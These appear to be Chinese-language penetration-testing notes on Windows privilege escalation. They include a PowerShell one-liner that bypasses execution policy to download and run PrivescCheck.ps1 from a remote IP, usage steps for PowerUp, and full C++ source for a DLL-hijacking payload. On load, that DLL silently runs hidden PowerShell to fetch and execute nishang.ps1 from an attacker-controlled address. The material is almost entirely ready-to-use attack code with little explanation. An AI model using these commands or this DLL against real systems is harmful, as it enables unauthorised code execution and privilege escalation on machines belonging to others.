## 查找服务提权的Ps脚本

```
1、https://github.com/itm4n/PrivescCheck.git


http远程调用：
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.9/PrivescCheck.ps1');Invoke-PrivescCheck"


2、https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
使用方法：
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile


微软官方，powershell管理服务的方法：
https://learn.microsoft.com/zh-cn/powershell/scripting/samples/managing-services?view=powershell-7.4#stopping-starting-suspending-and-restarting-services

```

## DLL劫持(需要RDP）

下载软件：
https://learn.microsoft.com/en-us/sysinternals/downloads/procmon


dll.cpp

```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("powershell.exe -nop -w hidden -c IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.240/nishang.ps1')");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
